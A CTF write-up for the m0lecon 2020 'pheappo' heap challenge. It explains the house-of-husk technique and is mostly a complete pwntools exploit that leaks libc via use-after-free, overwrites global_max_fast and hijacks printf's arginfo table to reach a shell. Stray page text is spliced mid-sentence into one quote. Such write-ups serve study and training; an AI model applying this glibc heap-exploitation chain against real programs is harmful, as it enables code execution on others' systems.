 ```yaml
---
ctf_name: "m0lecon 2020"
layout: writeup
title:	"pheappo"
date:	2020-11-16
category: "pwn"
author: "NicolaVV"
---
```


### Chall Description

That was a standard heap pwnable with some restrictions:
- Can alloc only chunks with size in range(1040, 38400), which goes to unsorted bin after free
- UAF possible, but not double free because of some additionals checks enforced with the global array `bitmap`
- Can't overwrite malloc_hook and free_hook

To exploit under those conditions I ended up using this known technique which i didn't know the existence of, [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507), pretty cool exploit chain which make use of a very strange printf functionality. Did you know that...

> The GNU C Library lets you define your own cuNo captcha required for preview. Please, do not write just a link to original writeup here.stom conversion specifiers? 

No? Well neither did I. Find out more about this at [http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html](http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)

The exploit is mainly an implementation of `house-of-husk` technique so I'm not gonna explain it deeply, since you can find more detailed information in the linked post. I tried to divide the exploit in sections like the post author's did, so it should be easier to follow it. 

Thanks to the organizers for those nice challenges, actually learnt a lot of new stuffs :).

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF("pheappo")
libc = ELF("libc.so.6")

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("challs.ctf.m0lecon.it", 9001)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': "./libc.so.6"}, *a, **kw)

def flush():
    return io.recvuntil(b'Choice: ', drop=True)

def create(sz):
    io.sendline(b'1')
    io.recvuntil(b'Size: ')
    io.sendline(f'{sz}'.encode())
    return flush()

def read(idx):
    io.sendline(b'2')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    leak = io.recvuntil(b'<=== Menu ===>', drop=True)
    flush()
    return leak

def write(idx, data):
    io.sendline(b'3')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    io.recvuntil(b'Data: ')
    io.sendline(data)
    return flush()

def delete(idx):
    io.sendline(b'4')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    return flush()

def quit():
    io.sendline(b'5')


if __name__ == "__main__":       
    io = start()
    
    # 1) Leak libc address
    create(1040) # to leak libc_main_arena with UAF
    '''
    2 chunks to achieve relative a overwrite with free
    more on this tecnique @ https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/
    - briefly, after setting global_max_fast to a big value, every chunk is gonna be treated as a 
    fastbin chunk, so every free is gonna put the chunk in main_arena.fastbinsY[out_of_bound_idx], achieving
    an out of bound write of a heap pointer in the libc
    E.G)
        - size=1040 + 0x10*i writes to main_arena + 528 + i*8
    '''
    get_i = lambda off_from_arena : (off_from_arena - 528) // 8
    create(1040 + 0x10 * get_i(libc.sym.__printf_arginfo_table - libc.sym.main_arena))
    create(1040 + 0x10 * get_i(libc.sym.__printf_function_table - libc.sym.main_arena))

    delete(0)
    chunk0leak = read(0)
    # leak &main_arena.unsortedbin
    libc_mainarena_unsortedbin = u64(chunk0leak[:8])

    libc.address = libc_mainarena_unsortedbin - 2116768
    log.info(f'libc_base: {libc.address:x}')
    onegadget = libc.address + 0x4f322 - 0x1e7000
    log.info(f'one_gadget: 0x{onegadget:x}')

    # forge fake __printf_arginfo_table so that tbl['%d'] = one_gadget
    fake_tbl = flat({ 
        784 : onegadget, # 0x4f322 0x10a38c
    }, filler=b'\x00')

    # 2) Make global_max_fast large with unsorted bin attack
    global_max_fast = libc.address + 2124096
    log.info('Do unsorted bin attack to overwrite global_max_fast...')
    where = global_max_fast-0x10
    write(0, p64(0) + p64(where))
    create(1040)

    # 3) Write the address of a fake arginfo table to __printf_arginfo_table by "relative overwrite"
    log.info('Write chunk1payload_ptr-0x10 to __printf_arginfo_table...')
    write(1, fake_tbl)
    delete(1)

    # 4) Write a non-null value to __printf_function_table by "relative overwrite"
    log.info('Write chunk2payload_ptr-0x10 to __printf_function_table...')
    delete(2)

    # 5) call printf to call onegadget
    log.success("Get shell")
    quit()

    io.interactive()
```